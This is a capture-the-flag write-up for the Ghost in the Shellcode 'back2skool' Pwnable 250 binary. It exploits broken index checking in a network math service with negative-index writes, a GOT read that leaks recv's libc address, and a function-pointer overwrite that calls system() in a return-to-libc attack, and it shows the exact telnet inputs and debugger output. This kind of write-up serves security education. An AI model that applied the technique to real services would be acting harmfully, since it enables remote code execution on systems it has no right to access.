


Introduction
This is a write-up for Pwnable 250 level from Ghost in the Shellcode capture the flag competition. Basically a return-to-libc attack will be described; we will also describe the steps for solving the mentioned CTF level using the original binary from the competition.
Hello binary!
Let’s start by inspecting the binary.
It is a 32bit dynamically linked binary
$ file ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f: ELF 32-bit LSB executable, ...Which waits for connections on port 31337
$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
[...]
setsockopt(3, SOL_SOCKET, SO_REUSEADDR, [1], 4) = 0
bind(3, {sa_family=AF_INET, sin_port=htons(31337), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 20) = 0
accept(3,SO_REUSEADDR is used, just for easy debugging ;-) - it allows other sockets to bind() this port; no more getting the annoying error Address already in use after the server crashes.
$ telnet localhost 31337
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Connection closed by foreign host.
$It immediately drops connection.
Let’s have a look at what happens when we are connecting to it.
$ ltrace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
[...]
[pid 4359] accept(3, 0, 0, 0x697a0002, 1) = 4
[pid 4359] fork() = 4361
[pid 4359] close(4) = 0
[pid 4359] accept(3, 0, 0, 0x697a0002, 1 <unfinished ...>
[pid 4361] <... fork resumed> ) = 0
[pid 4361] getpwnam("back2skool") = NULL
[pid 4361] err(-1, 0x804997b, 0x80499b8, 0, 0back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f:
Failed to find user back2skool: Success
<unfinished ...>
[pid 4361] +++ exited (status 255) +++In short, getpwnam fails, and the forked child exits. It also prints a conclusive error - the user back2skool is required.
Usually, the first step, when trying to solve a remote challenge is to debug it locally. Of course this is possible as long as we can run the application ourselves.
After we setup the user we can see the following output when connecting:
$ telnet localhost 31337
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
__ ___ __ __ _____
/ |/ /___ _/ /_/ /_ / ___/___ ______ __ v0.01
/ /|_/ / __ `/ __/ __ \\__ \/ _ \/ ___/ | / /
/ / / / /_/ / /_/ / / /__/ / __/ / | |/ /
/_/ /_/\__,_/\__/_/ /_/____/\___/_/ |___/
===============================================
Welcome to MathServ! The one-stop shop for all your arithmetic needs.
This program was written by a team of fresh CS graduates using only the most
agile of spiraling waterfall development methods, so rest assured there are
no bugs here!
Your current workspace is comprised of a 10-element table initialized as:
{ 0, 1, 2, 3, 4, 5, 6, 7, 8, 9 }
Commands:
read Read value from given index in table
write Write value to given index in table
func1 Change operation to addition
func2 Change operation to multiplication
math Perform math operation on table
exit Quit and disconnect
exit
Exiting program!
Connection closed by foreign host.
$The vulnerability
High-level
The output of the program is self-explanatory. Let’s try some commands.
$ telnet localhost 31337
read
Input position to read from:
3Nothing special.
Input position to read from:
10
Value at position 10: 134519224We can read past our table!
Input position to read from:
-200
Value at position -200: 0We can read below our table!
read
Input position to read from:
90000
Connection closed by foreign host.The program received SIGSEGV and the socket was closed. At least we can crash the program; in fact we are only crashing the child that has been spawned to handle our connection.
But what about write?
$ telnet localhost 31337
write
Input position to write to:
0
Input numeric value to write:
1
Value at position 0: 1Nothing special.
write
Input position to write to:
10
Table index too large!Bummer, we cannot write past our table!
write
Input position to write to:
-1
Input numeric value to write:
42
Value at position -1: 42
write
Input position to write to:
-10000
Input numeric value to write:
999
Connection closed by foreign host.Heh, we can write below our table!
Low-level
The assembly code, responsible for checking the indices can be viewed below. 
As you can not see, there is no check code for the index when we’re doing a read operation.

For the write operation there is checking using the instruction jle. But jle instruction is used for comparing signed integers. The instruction jbe should be used in this case which compares unsigned integers. You can find more on this wiki article. Probably the original code looks something like this:
One way to correct the above code is to have an unsigned comparison or check for negative values. Both would work in this case, but then we couldn’t solve this level :-).
In short, the index checking is broken. We can use any index for the read operation and for the write only negative indices. When you can write anything to any address of a program, the rest is just implementation.
The exploit
As explained in the previous section we can modify almost any address from our vulnerable program. In order to choose a right way to exploit the vulnerability, we should gather more information about the environment.
Do we have any RWX place to store the payload?
$ readelf -e ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
ELF Header:
Magic: 7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
[...]
Program Headers:
Type Offset VirtAddr PhysAddr FileSiz MemSiz Flg Align
PHDR 0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
INTERP 0x000154 0x08048154 0x08048154 0x00013 0x00013 R 0x1
[Requesting program interpreter: /lib/ld-linux.so.2]
LOAD 0x000000 0x08048000 0x08048000 0x022a8 0x022a8 R E 0x1000
LOAD 0x002e68 0x0804be68 0x0804be68 0x00204 0x00214 RW 0x1000
DYNAMIC 0x002e7c 0x0804be7c 0x0804be7c 0x000d8 0x000d8 RW 0x4
NOTE 0x000168 0x08048168 0x08048168 0x00044 0x00044 R 0x4
GNU_EH_FRAME 0x001e94 0x08049e94 0x08049e94 0x000c4 0x000c4 R 0x4
GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x4
GNU_RELRO 0x002e68 0x0804be68 0x0804be68 0x00198 0x00198 R 0x1
[...]The short answer is no - there is no RWE section in the binary. We cannot modify a memory that will be executed later. Maybe we can put our exploit in some region and then make this region executable. This means that we should be able to call mprotect or mmap. But we’ll have to do this, without injecting code, but only by changing non-executable data - e.g. stack values. One idea is to use a return-oriented-programming (ROP) approach, but as you will see in a future section, because our program doesn’t use mprotect or mmap (from libc), calling those functions means that we will have to figure out the offsets of those functions in libc first - if we do this, we can have a more straightforward approach by calling system function directly.
Is ASLR enabled?
It is safe to assume that ASLR is enabled. But because we will use some sort of ROP, we don’t care too much about this right now.
Where shall we write?
In order to modify the flow control of the program by only changing non-executable memory, we will have to find an indirect jump and change the value from that specific address. GOT is the starting point for this.
The idea that comes to our mind is: we will write (override) an address of function which is called later from the GOT. The GOT table is always at the same place in the memory (it resides in the binary) but recall, that we’re writing relatively to a buffer (the workspace table). So the next question that comes in our mind is:
Do we know the address of the buffer?
There are three cases where the buffer might be located:
- on the stack. If ASLR is enabled, figuring out its address can be done by reading an old
%ebp, which is possible because we can read parts of the memory relative to the buffer address; - on the heap. This is harder to get. But if our buffer is on the heap, and we can alter structures that are used internally by the malloc function (and we can, because the negative offset write) there is a way of exploiting. We can do something like in the case of double-free vulnerability - but it would be a tedious job;
- declared global (
.bssor.datasection). The address of the buffer is the same as in the binary, no runtime hazards.
Probably because pwn250 is not the hardest level, the buffer is in the .data section.

Because our buffer is in .data section and we can use negative indices for read and write, we have a good control over the memory below our buffer. Moreover, you can see in the IDA screenshot above, that there’s a math variable. The program is capable of switching from one operation (addition) to another one (multiplication) it does so by changing a pointer to a function. The pointer is in the .bss section.

I know at this point, one might argue that the authors of the program used this pointer to facilitate the problem solving - it’s true I wouldn’t argue against this - it’s just a game.
So let’s state our idea: we will override a pointer to a function which is called later; the function will be called whenever the math function is called.
First PoC
$ telnet localhost 31337
[...]
math
You haven't set a mode yet!
func1
Setting mode to ADDITION
write
Input position to write to:
-2147483634
Input numeric value to write:
286331153
Value at position -2147483634: 286331153
math
Connection closed by foreign host.
$Meanwhile, back at the castle.
$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
[...]
[pid 4710] recv(4, "\n", 1, 0) = 1
[pid 4710] send(4, "Value at position -2147483634: 2"..., 41, 0) = 41
[pid 4710] read(4, "m", 1) = 1
[pid 4710] read(4, "a", 1) = 1
[pid 4710] read(4, "t", 1) = 1
[pid 4710] read(4, "h", 1) = 1
[pid 4710] read(4, "\r", 1) = 1
[pid 4710] read(4, "\n", 1) = 1
[pid 4710] --- SIGSEGV (Segmentation fault) @ 0 (0) ---
Process 4710 detached
$OK, we’ve got our segmentation fault. Let’s see what was the last instruction pointer.
$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f /home/back2skool/core
[...]
Core was generated by `./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f'.
Program terminated with signal 11, Segmentation fault.
#0 0x11111111 in ?? ()
(gdb) Neat! But what are those numbers? We wrote at position -2147483634 value 286331153. The second number is the instruction pointer at which we want to jump with the math function. The first number is computed as follows
- the base of our buffer (values) is at a fixed address 0x804c040
- the address at which we want to write is 0x804c078
- we need to write at position values+0x38
- giving a positive index (0x38/4) will give an upper bound error
- the negative index is -(2^31 - (0x38/4)) == -2147483634
- you can test this by computing 2^33 + 0x804c040-4*(2^31 - (0x38/4)) - because of the way the buffer is addressed (4 bytes values, scaled addressing) the overflow is ignored and the index value wraps around. We need to do wrap around only when we try to access a value above the base address of the vector.
The instruction pointer is the value that we wrote, 0x11111111 in decimal is 286331153, so we’ve managed to modify the flow of the program by doing a write, and we’ve managed to do so in a predictable way.
##Second PoC
We are in the following state: we’ve managed to make our program to jump at any location. But where to jump? Because we don’t have any possibility of injecting code, we should rely on the available code. Available code means, our code and the dynamic libraries code which are mapped in our address space.
Let’s inspect again our binary to see what is used from shared libraries.
$ nm -D -u ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
w __gmon_start__
U __libc_start_main U __stack_chk_fail U accept U atoi U bind
U chdir U close U err U exit U fork U free U getpwnam U htonl
U htons U listen U perror U read U recv U send U setgid
U setgroups U setsockopt U setuid U signal U socket U vasprintf
$ Hmm, nothing useful, nothing to execute, nothing to modify the mappings. But hey, if you have access to those functions from libc and because the loader maps the libc to our address space then it means that we have access to other functions from libc, the problem is that we don’t know where they are. A wild idea appears, if we knew where one of the function from libc is, we can compute the rest of them by adding some offsets. There are two problems with this idea: how do we find the offset of a used function and how do we compute the offset of an unused function.
- finding the address of a used function is simple, we can use the GOT and read the value of the pointer which has been already filled in by the loader. Because of the lazy linking, we only have to be careful to choose a function which has been previously called. We will choose
recvfor this purpose.
$ objdump -dS ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f | grep -A2 recv@plt
08048980 <recv@plt>:
8048980: ff 25 c0 bf 04 08 jmp *0x804bfc00x804bfc0 is the GOT entry for recv function.
- finding the relative offset of the function that we want to jump to (e.g.
system) is difficult. This offset depends on the version of libc that is used on the target system. To make things simple, we will focus first on exploiting locally - meaning that we have access to our libc file. To compute the offset we only have to find the function entries in libc.
$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' recv@'
1124: 000cebf0 118 FUNC WEAK DEFAULT 12 recv@@GLIBC_2.0
$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' system@'
1398: 00039100 125 FUNC WEAK DEFAULT 12 system@@GLIBC_2.0
$ echo $((0x00039100-0x000cebf0))
-613104The offset is -613104, note that it depends on the version of libc, hence the exploit isn’t too reliable. Let’s focus though on exploiting locally and postpone the computation of the remote offset. We will write at the same address as in PoC1 but we will write the value of system function i.e. address_of_recv_function+OFFSET.
$ telnet localhost 31337
read
Input position to read from:
-32
Value at position -32: -1217696784
write
Input position to write to:
-2147483634
Input numeric value to write:
-1218309888
Value at position -2147483634: -1218309888
math
Result of math: -1Reading from -32 it’s equivalent of reading -32*4 bytes before our buffer. 0x804c040-32*4 is 0x804bfc0, this is the recv GOT entry. -1218309888 is -1217696784-613104.
Hey, it didn’t crashed, that’s a plus! Meanwhile, back at the castle.
$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
[...]
[pid 4901] send(4, "Value at position -2147483634: -"..., 43, 0) = 43
[pid 4901] read(4, "m", 1) = 1
[pid 4901] read(4, "a", 1) = 1
[pid 4901] read(4, "t", 1) = 1
[pid 4901] read(4, "h", 1) = 1
[pid 4901] read(4, "\r", 1) = 1
[pid 4901] read(4, "\n", 1) = 1
[...]
[pid 4902] execve("/bin/sh", ["sh", "-c", ""], [/* 31 vars */]) = 0
[pid 4902] brk(0) = 0x9a04000
[...]We successfully called execve!
Parameters to execve
We are able to run execve but we don’t control the parameters … yet. Let’s see with what parameters execve is called.
$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
[...]
Reading symbols from /root/back2skool-3fbcd46db37c50ad52675294f5667909d1f...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) catch syscall execve
Catchpoint 1 (syscall 'execve' [11])
(gdb) r
[...]
Catchpoint 1 (call to syscall 'execve'), 0xb7fe2424 in __kernel_vsyscall ()
(gdb) info registers
eax 0xffffffda -38
ecx 0xbffff3b4 -1073744972
edx 0xbffff5ac -1073744468
ebx 0xb7fa5a5a -1208329638
[...]
(gdb) x/s $ebx
0xb7fa5a5a: "/bin/sh"
(gdb) x/5x $ecx
0xbffff3b4: 0xb7fa5a5f 0xb7fa5a57 0x0804c040 0x00000000
0xbffff3c4: 0xb7ead180
(gdb) x/s ((char **)$ecx)[0]
0xb7fa5a5f: "sh"
(gdb) x/s ((char **)$ecx)[1]
0xb7fa5a57: "-c"
(gdb) x/s ((char **)$ecx)[2]
0x804c040 <values>: ""
(gdb) Because we’re using system function the first parameters are set accordingly (sh -c) but the actual command ((char **)$ecx)[2]) is empty. You can have a look at execve syscall parameters and the calling convention for it. Here we’re very lucky, the command that is passed to system is our buffer with values, the initial table. Let’s recap our approach:
- get the address of
recvfunction via GOT - set the pointer of
mathfunction tosystemby adding an offset torecvfunction address - set the parameters in the workspace table
- trigger the exploit by using the
mathfunction - profit
Getting some output
The only problem was that the communication socket was number 4 and the output went to file descriptor 1, but running the command with >&4 2>&4 appended, did the trick for us.
The offset, the Achilles’ Heel of the exploit
Well, the exploit worked locally, but remote it didn’t.
Recall that when computing the offset of system function in respect to recv function, we were able to access the libc that was used on the target system. A few ideas appeared:
- try different offsets by gathering as many libcs as possible from well known distros. After one hour of trying all the libc binaries from Ubuntu I start to wonder if I’m on the right track.
- try random values - this didn’t work at all and it was time consuming (I was already tired and my thinking was bad)
- get a copy of in use libc - this is a problem, because we cannot do
open, in the best case, we might do somesendover the socket using as buffer input the libc mapping. - hope for the best, and use another challenge (which we already exploited) and download that libc file and hope that this system has the same one.
- try to do a more intelligent search by matching function entries (
push %ebp,mov %esp, %ebpetc.), this would require too much work. - use some magical tool/table that I’m not sure it exists.
We used a previous level and was able to download the libc, this libc was identical with the one that was in use by the current challenge, so we were able to compute the offset for the remote system.
I don’t know of any method of doing a reliable return-to-libc attack without knowing the addresses of some functions. Maybe there’s a method of getting all the symbols after knowing the libc base, that would be neat.
The final exploit can be found here.
Conclusion
We’ve presented a way of doing a return-to-libc attack, even though this is a primitive return-to-libc approach, we used a function from libc. We also had to compute the offset of that function using the address of another function - this makes the exploit unreliable.
In the end, it boils down to have the right skill for using the right tools, it’s nothing fancy.